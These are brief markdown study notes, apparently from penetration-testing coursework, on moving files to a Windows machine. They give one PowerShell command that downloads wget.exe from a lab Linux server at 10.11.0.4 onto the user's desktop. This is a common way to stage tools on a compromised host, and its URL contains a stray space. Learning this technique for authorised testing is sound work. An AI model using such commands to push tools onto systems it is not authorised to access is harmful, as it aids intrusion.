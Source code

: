 # Windows Notes

### File Transfers
Start a server on linux machine
Enter following command on windows client
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```
Attempts to download  wget.exe from linux server.
